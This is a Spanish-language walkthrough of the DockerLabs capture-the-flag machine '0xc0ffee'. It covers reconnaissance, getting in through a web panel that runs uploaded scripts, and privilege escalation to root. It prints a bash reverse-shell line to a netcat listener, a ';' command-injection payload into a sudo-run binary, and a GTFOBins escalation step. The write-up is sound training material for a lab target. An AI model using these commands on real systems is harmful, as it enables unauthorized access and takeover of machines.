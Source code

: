 # 0xc0ffee

Máquina "0xc0ffee" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![0xc0ffee](../../../maquina-0xc0ffee/img/0xc0ffee.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep  4 18:55:41 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-09-04 18:55:42 -03 for 18s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Security Verification Tool
7777/tcp open  http    syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-title: Directory listing for /
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 18:56:00 2024 -- 1 IP address (1 host up) scanned in 18.57 seconds
```

Como vemos está el puerto `80` abierto y el `7777` también corriendo un servidor en python.

**Puerto 80:**

![80](../../../maquina-0xc0ffee/img/80.png)

Como vemos es una página que nos pide una contraseña, pero como no la tenemos la dejaremos de lado.

**Puerto 7777:**

![7777](../../../maquina-0xc0ffee/img/7777.png)

Como vemos es lo mismo que ejecutar `python3 -m http.server <puerto>` (literalmente igual), por lo que no podemos subir nada y la mayoria de las cosas nos las descarga, excepto los ".txt". Si vamos a `/secret/` veremos un archivo ".txt" que tiene una historia:

```css
En los albores del siglo XXI, España se encontraba en medio de una revolución tecnológica, donde las sombras de los servidores y el resplandor de las pantallas digitales eran el campo de batalla para los más astutos y habilidosos. Entre ellos, había un nombre que resonaba con reverencia y misterio: Álvaro López. Conocido en la comunidad cibernética como “El Fantasma de Madrid”, Álvaro era considerado el mejor hacker de España, y su habilidad para penetrar los sistemas más seguros era casi legendaria.

Álvaro comenzó su andanza en el mundo de la ciberseguridad desde una edad temprana. Lo que comenzó como un simple interés en la informática se transformó en una pasión por desentrañar los secretos más ocultos de las redes y sistemas de seguridad. Su habilidad para encontrar vulnerabilidades en sistemas aparentemente impenetrables le ganó una reputación que se extendía más allá de las fronteras de España.

Uno de los incidentes más notorios en la carrera de Álvaro ocurrió cuando se enfrentó a uno de los desafíos más complejos de su vida. Un banco internacional de renombre, conocido por su nivel extremo de seguridad, había sido blanco de un ataque, y el misterio giraba en torno a un archivo encriptado con la etiqueta "super_secure_password". Este archivo contenía información crítica sobre las transacciones de alto valor, y su protección era de máxima prioridad.

El banco había desplegado una red de seguridad impenetrable, con capas de cifrado y autenticación de múltiples factores, lo que hizo que el reto fuera aún más emocionante para Álvaro. Tras semanas de investigación y análisis de los sistemas, el Fantasma de Madrid descubrió una pequeña pero crítica vulnerabilidad en el protocolo de encriptación utilizado. Con una mezcla de astucia y técnica avanzada, pudo realizar un ataque sofisticado que permitió descifrar el contenido protegido bajo el "super_secure_password".

Sin embargo, el talento de Álvaro no radicaba solo en su capacidad para hackear sistemas; también era un maestro en la ética de la ciberseguridad. En lugar de utilizar la información para sus propios fines, utilizó su acceso para alertar al banco sobre las fallas en su sistema y proporcionar recomendaciones para mejorar la seguridad. Su acto no solo demostró su habilidad técnica, sino también su integridad y compromiso con la seguridad digital.

La hazaña de Álvaro López pronto se convirtió en una leyenda en el mundo de la ciberseguridad. El banco, agradecido por su valiosa contribución, lo recompensó generosamente y lo invitó a colaborar en la mejora de sus sistemas de seguridad. La historia de El Fantasma de Madrid se convirtió en un ejemplo de cómo la habilidad y la ética pueden coexistir en el mundo del hacking.

Con el tiempo, Álvaro siguió influyendo en el campo de la ciberseguridad, ofreciendo conferencias y talleres sobre la importancia de la protección de datos y la ética en el hacking. Su legado perduró, y su nombre se convirtió en sinónimo de excelencia en el arte de la ciberseguridad, recordado como el mejor hacker que España había conocido.
```

Ahora si nos fijamos, veremos que la historia nombra una password, la cual es "super\_secure\_password". Ahora si a esta misma la metemos en el puerto 80 que nos pedía una contraseña, podremos entrar. Una vez dentro veremos esta otra página:

![panel](../../../maquina-0xc0ffee/img/panel.png)

Al parecer nos deja crear "configuraciones" y aplicarlas, en la cual si probamos crear por ejemplo una que se llame "test.txt" y la subimos, veremos que se ha creado localmente en el puerto 7777:

![test](../../../maquina-0xc0ffee/img/testxt.png)

## INTRUSION

Sabiendo esto podemos probar en enviarnos una reverse shell y ver si nos llega.

En la página haremos un script que tenga extensión ".sh" y que contenga lo siguiente:

```css
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<puerto> 0>&1
```

Luego le damos en guardar, volvemos a nuestra máquina y escuchamos con netcat en el puerto elegido:

```css
sudo nc -nlvp <puerto>
```

ahora bajamos en la página hasta donde dice "Execute Remote Configuration" y ejecutamos el script con el nombre que elegimos:

![rev](../../../maquina-0xc0ffee/img/rev.png)

## ESCALADA DE PRIVILEGIOS

#### www-data

Antes de continuar haremos el tratamiento de la tty, para hacerlo ejecutaremos estos comandos:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y luego escribimos "reset xterm" y luego enter
export TERM=xterm && export SHELL=bash
```

Ahora si nos vamos a `/home/codebad/secret`, podremos ver una adivinanza que dice lo siguiente:

```abap
Adivinanza

En el mundo digital, donde la protección es vital,
existe algo peligroso que debes evitar.
No es un virus común ni un simple error,
sino algo más sutil que trabaja con ardor.

Es el arte de lo malo, en el software es su reino,
se oculta y se disfraza, su propósito es el mismo.
No es virus, ni gusano, pero se comporta igual,
toma su nombre de algo que no es nada normal.

¿Qué soy?
```

RESPUESTA: malware.

Luego ejecutamos un `su codebad` y poner "malware" de contraseña.

### Codebad

Si ejecutamos un `sudo -l` vermos lo siguiente:

```css
Matching Defaults entries for codebad on ce1f3f7f4392:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User codebad may run the following commands on ce1f3f7f4392:
    (metadata : metadata) NOPASSWD: /home/codebad/code
```

Si intentamos leer el script, estará en un formato ilegible, pero podemos probar en ejecutarlo y ver que pasa:

![code](../../../maquina-0xc0ffee/img/code.png)

como vemos nos pide una opción, la cual si se la pasamos nos dice esto:

![ls](../../../maquina-0xc0ffee/img/ls.png)

Como vemos el script ya ejecuta un "ls", por lo que podemos intentar ejecutar el binario "bash" como el usuario metadata, para hacerlo podemos hacer uso de ";" que en linux nos permite "ejecutar dos comandos a la vez", por ej:

![;](../../../maquina-0xc0ffee/img/;.png)

como vemos al hacer uso de ";" y poner `whoami; ls`, nos ejecuta los dos a la misma vez. Ahora podemos usar esto en nuestro beneficio para escalar, para hacerlo podemos ejecutar el script de la siguiente manera:

```css
sudo -u metadata /home/codebad/code "/home/; bash"
```

Esto hará que se ejecute el binario bash y podremos escalar privilegios al usuario "metadata".

#### Metadata

Ahora si ejecutamos `sudo -l` nos pedirá contraseña, pero podemos buscar si hay algún archivo o algo que nos sirva con el nombre de "metadata" y en el mejor de los casos tenga la contraseña. Para hacerlo usaremos `find` de la siguiente manera:

```css
find / -name "meta*" 2>/dev/null
```

Luego de ejecutarlo vermos que hay un script llamado "metadatosmalos":

```css
/usr/local/bin/metadatosmalos
```

si lo leemos no tiene nada interesante pero si usamos el nombre del script como contraseña al poner `sudo -l`, veremos que es correcta y podemos ejecutar el binario `c89`, que al buscar en [GTFOBins](https://gtfobins.github.io/) veremos que podemos escalar ejecutando esto:

![c89](../../../maquina-0xc0ffee/img/c89.png)

Por lo que simplemente lo ejecutamos y ya seremos root:

![root](../../../maquina-0xc0ffee/img/root.png)

Gracias por leer.
